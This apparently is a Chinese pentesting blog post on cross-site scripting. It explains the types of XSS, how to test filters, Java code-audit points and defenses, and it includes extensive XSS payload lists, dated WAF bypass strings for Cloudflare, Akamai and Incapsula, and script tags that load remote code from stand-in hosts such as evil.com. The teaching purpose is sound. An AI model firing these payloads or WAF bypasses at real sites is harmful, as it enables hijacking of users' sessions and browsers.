 ```yaml
---
title: XSS漏洞
comments: true
date: 2022-01-18 16:20:37
tags: ["XSS", "渗透测试", "Web安全"]
categories:
- 渗透测试
cover: http://image.xpshuai.cn/img/image-20220117194917525.png
top_img:
description:
---
```


> 由于时间和篇幅，只做浅析，往后时间充裕了再细细研究



## 简介

XSS（cross site scripting）跨站脚本为了不与网页中层叠样式表（css）混淆，故命名为xss。黑客将恶意代码嵌入网页中，当客户网文网页的时候，网页中的脚本会自动执行，从而达成黑客攻击的目的。



## 分类

### 1.反射型xss

非持久化，一般需要欺骗客户去点击构造好的链接才能触发代码。



### 2.存储型XSS

他会存储到数据库中，这种xss漏洞危害极大，因为它可以长久的保存在网页中，每个浏览过此网页的用户都会中招，很多xss蠕虫的爆发都是基于持久型xss，一般在留言板，评论区类位置容易出现此漏洞。但存储型XSS不用考虑绕过浏览器的过滤问题，屏蔽性也要好很多。

![存储型XSS攻击流程](http://image.xpshuai.cn/img/image-20220118223432836.png)



### 3.DOM型XSS

全称Document Object Model，使用DOM可以使程序和脚本能够动态访问更新文档的内容，结构及样式。
DOM型XSS是一种特殊类型的反射型XSS，基于DOM文档对象模型的一种漏洞。







## 挖掘

**XSS可以插在哪里？** 

用户输入作为script标签内容

```java
//<script>标签：script是最有直接的xss攻击载荷，脚本标记可以应用外部的js代码，或者将脚本插入网页之中。

<script>alert("hhh")</script>

<script src="http://1.1.1.1/a.js"></script>
```



用户输入作为HTML注释内容



用户输入作为HTML标签的属性名



用户输入作为HTML标签的属性值

```javascript
//<img >标签：

<img src="2" onerror=alert('hhh')>
<img src="2" onerror=alert(/hhh/)>
<img src="javascript:alert("XSS");">
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
　　
    
//<table>标签：
<table background="javascript::alert('hhh')">

    
//<iframe>标签：<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

<iframe src=”http://evil.com/xss.html”>
```



用户输入作为HTML标签的名字



直接插入到CSS里　





### 测试思路

下面让我们来看一下XSS绕过的测试流程。

现实中，大多数的场所是用的黑名单来做XSS过滤器的，有三种方式绕过黑名单的测试：

1.暴力测试（输入大量的payload，看返回结果）
2.根据正则推算
3.利用浏览器bug
初步测试

（1）尝试插入比较正常的HTML标签，例如：`<a>、<b>、<i>、<u>`等，来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

（2）尝试插入不闭合的标签，例如：<a、<b、i>、u>、<img等，然后看一下返回响应，是否对开放的标签也有过滤。

（3）然后测试几种常见的XSS向量：

```
<script>alert(1)</script><script>prompt(1)</script><script>confirm(1)</script>......看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert、prompt、confirm等字符，再尝试大小写的组合：
<scRiPt>alert(1);</scrIPt>

```



（4）如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用双写的方式来绕过：

```bash
<scr<script>ipt>alert(1)</scr<script>ipt>
```

这样当<script>标签被过滤掉后，剩下的组合起来刚好形成一个完整的向量。

（5）用<ahref标签来测试，看返回响应

```bash
<ahref="http://www.baidu.com">click</a>

```



看看<a标签是否被过滤，href是否被过滤，href里的数据是否被过滤了。如果没有数据被过滤，插入javascript伪协议看看：

```bash
<ahref="javascript:alert(1)">click</a>
```

看是否返回错误，javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符。

继续测试事件触发执行javascript：

```bash
<ahref=xonmouseover=alert(1)>ClickHere</a>

```

看onmouseover事件是否被过滤。

测试一个无效的事件，看看他的过滤规则：

```bash
<ahref=xonclimbatree=alert(1)>ClickHere</a>

```

是完整的返回了呢，还是跟onmouseover一样被干掉了。如果是完整的返回的话，那么就意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件，我们可以选用别的事件。测试一个很少见的事件：

```bash
<bodyonhashchange=alert(1)><ahref=#>click</a>

```

onhashchange事件在当前URL的锚部分(以'#'号为开始)发生改变时触发。





### 常用Payload

```bash
#Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

#Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

#Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)


#HTML5中的一些XSS
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从屏幕中移走时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕中拖动时触发XSS使用Script标签（外部Payload）
```







scirpt标签用于定义客户端脚本，比如JavaScript

```

<script>alert(1);</script>

<script>alert("xss");</script>
```



img标签定义HTML页面中的图像

```
<img src=1onerror=alert(1);>

<img src=1onerror=alert("xss");>
```



input标签规定了用户可以在其中输入数据的输入字段

```
<input onfocus=alert(1);>
 onfocus="alert(1);"autofocus>
```


details标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。ontoggle事件规定了在用户打开或关闭<details>元素时触发：

```
<details ontoggle=alert(1);>

<details openontoggle=alert(1);>
```




svg标签用来在HTML页面中直接嵌入SVG文件的代码

```
<svg onload=alert(1);>
```




select标签用来创建下拉列表

```
<select onfocus=alert(1)></select>

<select onfocus=alert(1)autofocus>
```




iframe标签创建包含另外一个文档的内联框架

```
<iframe onload=alert(1);></iframe>
```




video标签定义视频，比如电影片段或其他视频流。

```
<video><source onerror=alert(1)>
```




audio标签定义声音，比如音乐或其他音频流。

```
<audio src=xonerror=alert(1);>
```




body标签定义文档的主体

```
<body onload=alert(1);>
```



onscroll事件在元素滚动条在滚动时触发。我们可以利用换行符以及autofocus，当用户滑动滚动条的时候自动触发，无需用户去点击触发：

```
<body
onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><inputautofocus>
```




textarea标签定义一个多行的文本输入控件。

```
<textarea onfocus=alert(1);autofocus>
```



 

marquee标签

```
<marquee onstart=alert(1)></marquee>//Chrome不行，火狐和IE都可以

```

isindex标签

```
<isindex type=image src=1onerror=alert(1)>//仅限于IE
```

利用link远程包含JavaScript文件

<link>标签定义文档与外部资源的关系。在无CSP的情况下才可以使用：

```
<link rel=import href="http://47.xxx.xxx.72/evil.js">
```




利用JavaScript伪协议

javascript:这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript的解释器运行。当浏览器装载了这样的URL时，并不会转向某个URL，而是执行这个URL中包含的javascript代码，并把最后一条javascript语句的字符串值作为新文档的内容显示出来。

a标签

```
<a href="javascript:alert(1);">xss</a>
```



iframe标签

```
<iframe src=javascript:alert(1);></iframe>
```

img标签

```
<img src=xonerror=alert(1)>

<img src=javascript:alert(1)>//IE7以下
```

form标签

```
<form action="Javascript:alert(1)"><input type=submit>
```







### 常见编码

**1.js编码**
js提供了四种字符编码的策略
三位八进制数字，如果个数不够，在前面补0，例如"e"的编码为"\145"
两位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\x65"
四位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\u0065"
对于一些控制字符，使用特殊的C类型的转义风格(例如\n和\r)

**2.html实体编码**
命名实体：以&开头，以分号结尾
字符编码：十进制，十六进制ASCII码或者Unicode字符编码

**2.url编码**

使用XSS编码测试时需要考虑html渲染的顺序，针对多种编码的组合时，要选择合适的编码进行测试





### 常见bypass

> 可以参考法克论坛的pdf

#### 过滤的绕过

```javascript
大小写绕过
	- 绕过标签黑名单
	- 用代码评估绕过单词黑名单
	- 不完整的HTML标签绕过
	- 绕过字符串的引号
	- 绕过Script标签的引号
	- 在mousedown事件中绕过引号
	- 绕过点（.）的限制
	- 绕过字符串的括号
	- 绕过括号和分号
	- 绕过 onxxxx= 黑名单
	- 绕过空格过滤
	- Bypass email filter
	- 绕过文档黑名单
	- 在字符串中使用javascript绕过
	- 使用其他方式绕过重定向限制
	- 使用其他方式执行alert
	- 不使用任何东西绕过 ">"
	- 使用其他字符绕过 ";"
	- 使用HTML编码绕过
	- 使用Katana绕过
	- 使用Lontara绕过
	- 使用ECMAScript6绕过
	- 使用八进制编码绕过
	- 使用Unicode编码绕过
	- 使用UTF-7编码绕过
	- 使用UTF-8编码绕过
	- 使用UTF-16be编码绕过
	- 使用UTF-32编码绕过
	- 使用BOM（浏览器对象模型）绕过
	- 使用奇怪的编码绕过
```



#### 过狗

> 发现了个好资源，直接借鉴的，推荐去学学
>
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Cloudflare XSS Bypasses

25st January 2021

```
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
```

21st April 2020

```
<svg/OnLoad="`${prompt``}`">
```

22nd August 2019

```
<svg/onload=%26nbsp;alert`bohdan`+
```

5th June 2019

```
1'"><img/src/onerror=.1|alert``>
```

3rd June 2019

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

Cloudflare XSS Bypass - 22nd March 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

Cloudflare XSS Bypass - 27th February 2018

```
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

Chrome Auditor - 9th August 2018

```
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=alert(1)-%26apos%3B)

Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th March 2018

```
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th September 2018

```
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th May 2019

```
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th June 2018

```
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th October 2018

```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th September 2018

```
<a href=javas&#99;ript:alert(1)>
```

Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019

```
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```





### 练习平台

靶场：xss-labs





### 工具

- xss平台
- beef



## Java代码审计

一种审计策略：

1.收集输入、输出点

2.查看输入、输出点的上下文环境

3.判断Web应用是否对输入、输出环境做了防御工作





### XSS常见触发位置

**输入**在Java中常用`request.getParameter(param)`或`${param}`获取用户的输入信息；

**输出**主要表现为前端的渲染，我们可以定位前端中的一些常见的标识符来找到他们，然后根据后端逻辑来判断漏洞是否存在。

**1.JSP表达式**

`<%=变量%>`是`<%out.println(变量);%>`的简写方式，`<%=%>`用于将已声明的变量或表达式输出到外网页中

```jsp

```



**2.EL（表达式语言）**

是为了使jsp写起来更加简单。

例如：`<%=request.getParameter("username")%>`等价于`${param.username}`

```jsp
<c:out> 标签
    
<c:if> 标签
    
<c:forEach> 标签
```



**3.ModelAndView类的使用**

ModelAndView用来存储处理完成后的结果数据，以及显示该数据的视图，其前端JSP页面可以使用`${参数}`的方法来获取值



**4.ModelMap类的使用**

可以根据模型属性的具体类型自动生成模型属性的名称



**5.Model类的使用**





### 对于反射型XSS

白盒审计中，需要寻找带有参数的输出方法，然后对输出方法对输出内容回溯输入参数





### 对于存储型XSS

要统一寻找“输出点”和“输出点”。由于输出点与输入点可能不在一个业务流中，可以考虑以下方法提高效率：

1.黑白盒结合

2.通过功能、接口名、表名、字段名等角度做搜索



寻找输入点

审计输入点代码

对输出点进行审计





### 对于Dom型XSS

dom型xss不需要与服务器交互，它只发生在客户端处理数据阶段。

粗略说，Dom型xss的成因是不可控的危险数据，未经过滤传入存在缺陷的js代码处理。



**Dom型XSS常见的输入输出点：**

| 输入点            | 输出点             |
| ----------------- | ------------------ |
| document.URL      | eval               |
| document.location | document.write     |
| document.referer  | document.InnerHTML |
| document.form     | document.OuterHTML |
|                   |                    |







### 关键字

```bash
<%=
${
<c:out
<c:if
<c:forEach
ModelAndView
ModelMap
Model
request.getParameter
request.setAttibute
request.getWriter().print()
request.getWriter().writer()

```









## 漏洞防御

- 对与后端有交互的位置执行参数的输入过滤（课通过Java的filter、Spring参数校验注解来实现。比如编写全局过滤器实现拦截并在web.xml中进行配置）
- 对与后端有交互的位置执行参数的输出转义/html编码等
- 开启JS开发框架的XSS防护功能
- 设置HttpOnly（严格的说，HttpOnly对防御XSS不起作用，主要是为了解决xss漏洞后续的cookie劫持攻击，可以阻止客户端脚本访问cookie）
- 采用OWASP企业安全程序接口(ESAPI)实现，类似内容还有谷歌的xssProtect等





## 参考

https://www.cnblogs.com/xyz315/p/14850359.html

https://cloud.tencent.com/developer/article/1474865

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-wrappers-javascript-and-data-uri





未完待续...
